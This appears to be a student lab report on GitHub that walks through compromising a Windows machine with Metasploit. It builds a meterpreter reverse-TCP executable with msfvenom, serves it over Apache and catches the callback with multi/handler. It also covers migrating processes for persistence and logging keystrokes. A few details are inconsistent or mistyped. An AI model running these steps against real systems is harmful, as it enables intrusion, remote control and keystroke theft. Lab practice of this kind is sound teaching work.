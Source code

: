 # Compromising-windows-using-Metasploit
Compromising windows using Metasploit
# Metasploit
Compromising windows using Metasploit

# AIM:

To Compromise windows using Metasploit .

## DESIGN STEPS:

### Step 1:

Install kali linux either in partition or virtual box or in live mode

### Step 2:

Investigate on the various categories of tools as follows:

### Step 3:

Open terminal and try execute some kali linux commands

## EXECUTION STEPS AND ITS OUTPUT:
![6 1](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/039f0306-f81e-426d-bb48-bf8a9bfbd7b0)


Create a malicious executable file fun.exe using msenom command msfvenom -p windows/meterpreter/reverse_tcp LHOST=192.168.1.2 -f exe > fun.exe
## OUTPUT:

![6 2](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/077982a5-1e45-4117-8d6d-2518b6056789)


copy the fun.exe into the apache /var/www/html folder

![6 3](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/2a900dce-2280-4726-a54a-0ec65218bb96)


Start apache server sudo systemctl apache2 start

![6 4](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/77fc6863-c55b-4535-bbe6-54191f81b51e)


Check the status of apache2

![6 5](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/3748e7fc-dc4a-4bef-a650-50766046dfdc)


Invoke msfconsole:

## OUTPUT:
Type help or a question mark "?" to see the list of all available commands you can use inside msfconsole.

Starting a command and control Server use multi/handler set PAYLOAD windows/meterpreter/reverse_tcp set LHOST 0.0.0.0 exploit

![6 6](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/4e0dd840-ee7d-49f3-876b-4dfa1d9065ab)


On the target Windows machine, open a Web browser and open this URL, replacing the IP address with the IP address of your Kali machine: http://192.168.1.2/fun.exe The file "fun.exe" downloads.

![6 7](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/cbf2c357-5c03-4cef-a917-9a0f0fc59ed1)


Bypass any warning boxes, double-click the file, and allow it to run.

On kali give the command exploit

![6 8](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/72b28c90-2645-47ac-8799-d812b2663f1e)


To see a list of processes, at the meterpreter > prompt, execute this command: ps ⇒ can see the fun.exe process running with pid 1156

The Metasploit shell is running inside the "fun.exe" process. If the user closes that process, or logs off, the connection will be lost. To become more persistent, we'll migrate to a process that will last longer. Let's migrate to the winlogon process. At the meterpreter > prompt, execute this command:

migrate -N explorer.exe at meterpreter > prompt, execute this command: netstat A list of network connections appears, including one to a remote port of 4444, as highlighted in the image below. Notice the "PID/Program name" value for this connection, which is redacted

![6 9](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/04b7f686-ad7e-4a0b-952d-18d4216526eb)


Post Exploitation The target is now owned. Following are meterpreter commands for key capturing in the target machine keyscan_start Begins capturing keys typed in the target. On the Windows target, open Notepad and type in some text, such as your name.

![6 10](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/b1431aec-5173-4b18-811f-e74ba4abcebd)


keyscan_dump Shows the keystrokes captured so far

![6 11](https://github.com/keerthanaa10/Compromising-windows-using-Metasploit/assets/132996371/a81072c2-8943-41c8-89e9-4cc57be3f582)



## RESULT:
The Metasploit framework is  used to compromise windows and is examined successfully.
